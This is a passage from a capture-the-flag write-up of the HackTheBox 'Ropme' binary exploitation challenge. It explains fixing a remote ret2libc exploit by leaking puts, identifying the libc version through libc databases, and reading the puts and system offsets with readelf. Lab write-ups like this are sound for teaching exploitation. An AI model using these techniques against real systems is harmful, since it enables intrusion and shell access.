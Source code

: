 The exploit works fine locally. However, it fails remotely. 


Screenshot with GDB debug
![9](/HackTheBox-Pwn-Ropme/9.png)

Screenshot without GDB

![10](/HackTheBox-Pwn-Ropme/10.png)

Shell without context.log_level="DEBUG"

![11](/HackTheBox-Pwn-Ropme/11.png)



## Finding the remote version of libc

To ensure this exploit works remotely, we can use the [libc database](https://github.com/niklasb/libc-database) https://libc.blukat.me/ or https://libc.rip/ to find the correct libc version since we don't know what the target is running.

We can do this by using the leaking puts on the remote target and using the libc database to calculate that. 

The leaked remote version for me was `0x7fcf93af1690`.

```
[+] Leaked puts@GLIBC_2.2.5: 0x7fcf93af1690
```

I downloaded `libc6_2.23-0ubuntu11_amd64` with the MD5 hash of `8c0d248ea33e6ef17b759fa5d81dda9e`

![10](/HackTheBox-Pwn-Ropme/13.png)


Note: This challenge was a bit broken and even though we got the correct version of libc and called /bin/sh, we could not get a shell until we minus 64 bytes from `/bin/sh` for some padding. This is not required in most challenges.


We can use the same manual techniques and hard code the values or there is a better way.

```
$ readelf -s libc6_2.23-0ubuntu11_amd64.so | grep puts

186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
475: 000000000010bbe0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
651: 000000000010d590   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
1097: 000000000006e030   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
```


```
$ readelf -s libc6_2.23-0ubuntu11_amd64.so | grep system
1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```
